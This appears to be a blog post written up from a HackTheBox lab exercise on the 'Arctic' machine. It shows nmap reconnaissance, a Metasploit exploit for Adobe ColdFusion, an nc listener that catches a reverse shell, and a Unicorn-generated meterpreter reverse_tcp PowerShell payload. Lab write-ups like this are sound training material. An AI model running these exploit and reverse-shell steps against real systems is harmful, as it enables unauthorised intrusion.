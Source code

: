 ```yaml
---
layout: post
title: Arctic
tags: [HackTheBox, BurpSuite, Nmap, Unicorn, Ncat, MetaSploit]
---
```


In this box, we'll see how to set up a BurpSuite proxy to circomvent MSF timeout and exploit an Adobe ColdFusion vuln and ride a Unicorn made of Python.<br><br>

![Arctic MindMap]({{ site.baseurl }}/assets/img/pexels/arctic.svg)

### 0x00 : Recon

First things first, some recon. For that we'll use nmap with some options<br>
* -sC : --script=safe,intrusive
* -sV : get the running version of the services
* -T4 : no more than 10ms dynamic delay
* -oA : output logs in all formats

{% highlight bash %}
  $ nmap -sC -sV -T4 -oA arctic 10.10.10.11
{% endhighlight %}

> screenshot

The scan shows an open port 8500 and nothing much.<br>
Firing up our browser and connecting to the box reveals an Adobe ColdFusion login screen.<br>
Our next step will be to search for a suitable exploit in SearchSploit :

{% highlight bash %}
  $ searchsploit coldfusion
{% endhighlight %}

> screenshot

<br><br>

### 0x01 : Exploitation

Many exploits here and a MSF module. Let's try it into msfconsole :

{% highlight bash %}
  # msfdb start
  $ msfconsole
  msf > search coldfusion
{% endhighlight %}

> screenshot

<br>

{% highlight bash %}
  msf > use exploit/windows/http/coldfusion_fckeditor
  msf > set RHOST 10.10.10.11
  msf > set RPORT 8500
  msf > run
{% endhighlight %}

And... it hangs... and fails...<br>
I'm pretty sure we could increase msf timeout to avoid that problem, but we're not here for that.<br>
Let's do that another way, firing up BurpSuite, setting a proxy listener to capture the msf payload and replay it !<br>

> screenshot

Now that we have a better control over the network/payload, all we need is a Ncat listener for our reverse shell to connect to.

{% highlight bash %}
  $ nc -lvnp 4444
{% endhighlight %}

And this time, it works !
<br><br>
### 0x03 : Privesc

Ok, now we've got a shell. But a pretty simple one. Let's improve that by getting a meterpreter reverse shell using a Python Unicorn (yes they are real).<br>
You can get your very own unicorn [here](https://github.com/trustedsec/unicorn).
{% highlight bash %}
  $ /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp M.Y.I.P 31337
{% endhighlight %}
In case it is not clear "M.Y.I.P" refers to "my ip", so use your own.<br>
Two files should be generated :
* unicorn.rc
* powershell_attack.txt
The unicorn.rc file contains the Metasploit config options and will be loaded that way :
{% highlight bash %}
  $ msfconsole -r unicorn.rc
{% endhighlight %}
The powershell_attack file contains the actual payload

Big thanks to [ippsec](https://twitter.com/ippsec) for his great [videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and kind answers
